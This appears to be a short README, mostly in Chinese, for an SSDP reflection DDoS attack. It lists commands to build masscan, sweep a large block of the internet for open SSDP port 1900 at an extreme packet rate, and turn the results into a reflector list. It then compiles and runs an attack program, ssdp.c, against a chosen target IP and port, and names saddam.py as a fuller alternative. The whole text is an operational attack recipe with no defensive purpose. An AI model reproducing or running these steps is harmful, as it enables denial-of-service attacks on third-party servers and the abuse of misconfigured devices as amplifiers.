 # Ddos Ssdp Attack
> Use Masscan Scan Server

### 安装 Git
	yum install git

### 安装 Masscan
	git clone https://github.com/robertdavidgraham/masscan
	cd masscan
	make
	cd bin

### 扫描 Server
	# 最高速扫描 SSDP 端口保存为 JSON
	./masscan 0.0.0.0/4 -p1900 --rate 100000000  -oJ ip.json
	# 转换格式为单 IP 的 TXT
	python format.py ip.json ip.txt

### 攻击 SSDP
	# 安装 C 编译环境
	yum -y install gcc
	# 编译攻击脚本
	gcc -pthread ssdp.c -o ssdp
	# SSDP 攻击
	./ssdp <target IP> <target port> <reflection file> <time (optional)>
	
> 攻击或使用功能更全的 saddam.py 攻击脚本
